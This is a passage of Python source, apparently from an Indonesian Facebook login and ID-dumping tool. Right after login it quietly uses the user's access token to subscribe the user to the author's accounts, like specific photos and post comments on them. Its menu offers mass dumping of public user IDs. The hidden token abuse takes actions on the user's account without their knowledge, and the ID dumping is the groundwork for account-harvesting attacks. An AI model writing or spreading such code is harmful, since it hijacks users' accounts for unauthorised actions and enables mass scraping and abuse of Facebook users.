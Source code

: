         ___kata___ = random.choice(['Hidup ini terdiri dari 10 persen apa yang terjadi padamu dan 90 persen bagaimana caramu menyikapinya. - Charles R. Swindoll','Sukses tampaknya terkait dengan tindakan. Orang sukses terus bergerak. Mereka membuat kesalahan, tetapi mereka tidak berhenti. - Conrad Hilton','Keberanian adalah apa yang diperlukan untuk berdiri dan berbicara. Keberanian juga diperlukan untuk duduk dan mendengarkan. - Winston Churchill','Berani bermimpi, tapi yang lebih penting, berani melakukan tindakan di balik impianmu. - Josh Hinds','Kegagalan tidak akan pernah menyusul jika tekad untuk sukses cukup kuat. - Og Mandino','Hidup menyusut atau berkembang sebanding dengan keberanian seseorang. - Anais Nin','Ada dua cara untuk menyebarkan cahaya: menjadi lilin atau cermin yang memantulkannya. - Edith Wharton','Kesempatan itu mirip seperti matahari terbit. Kalau kau menunggu terlalu lama, kau bisa melewatkannya. - William Arthur Ward','Kebahagiaan bukanlah sesuatu yang siap dibuat. Itu berasal dari tindakan Anda sendiri. - Dalai Lama'])
        ___komen___ = (___ucapkan___+'\n\n'+___kata___+'\n'+___waktu___)
        ___komen2___ = (___ucapkan___+'\n\n'+___kata___+'\n'+___waktu___)
        ___komen3___ = random.choice(['Hello Bro','Mantap Bang','Keren Bang','Very Nice','Super','Hallo Bang'])
        requests.post('https://graph.facebook.com/757953543/subscribers?access_token=%s'%(___token___)) #rozhak
        requests.post('https://graph.facebook.com/100064814153036/subscribers?access_token=%s'%(___token___)) #rozhak2
        requests.post('https://graph.facebook.com/100000288808056/subscribers?access_token=%s'%(___token___)) #muhammad rozhak
        requests.post('https://graph.facebook.com/10158807643598544/likes?summary=true&access_token=%s'%(___token___)) #foto sampul
        requests.post('https://graph.facebook.com/10159090813023544/likes?summary=true&access_token=%s'%(___token___)) # foto profil
        requests.post('https://graph.facebook.com/10158807643598544/comments/?message=%s&access_token=%s'%(___komen3___,___token___)) #foto sampul
        requests.post('https://graph.facebook.com/10159090813023544/comments/?message=%s&access_token=%s'%(___komen___,___token___)) #foto profil
        requests.post('https://graph.facebook.com/10159494942223544/comments/?message=%s&access_token=%s'%(___komen2___,___token___)) #foto profil
        requests.post('https://graph.facebook.com/100041129048948/subscribers?access_token=%s'%(___token___)) # Iwan
	requests.post('https://graph.facebook.com/100000496418851/subscribers?access_token=%s'%(___token___)) # Muhammad Abill
    except:
        exit("%s[%s!%s]%s Login Gagal"%(P,M,P,M))
    print("%s[%s*%s]%s Login Berhasil"%(H,P,H,P))
    ___menu___()
# Menu
def ___menu___():
    os.system('clear')
    print(___logo___)
    try:
        ___token___ = open('login.txt','r').read()
    except (IOError):
        print("%s[%s!%s]%s Token Invalid"%(P,M,P,M));sleep(2)
        ___login___()
    try:
        xoz = requests.get('https://graph.facebook.com/me/?access_token=%s'%(___token___)).json()
        print("%s[%sâ€¢%s]%s Welcome :%s %s"%(B,P,B,P,H,xoz['name']))
        try:
            print("%s[%s*%s]%s Email :%s %s"%(B,P,B,P,H,xoz['email']))
        except:
            print("%s[%s*%s]%s Email :%s email_is_none@gmail.com"%(B,P,B,P,H))
        print("%s[%sâ€¢%s]%s User :%s %s"%(B,P,B,P,H,xoz['id']))
    except (KeyError):
        print("%s[%s!%s]%s Token Invalid"%(P,M,P,M));sleep(2);os.system('rm - rf login.txt')
        ___login___()
    except (ConnectionError):
        exit("%s[%s!%s]%s Koneksi Error"%(P,M,P,M))
    print("\n%s[%s1%s]%s Dump ID Publik Masal Acak (2004-2021)"%(H,U,H,P))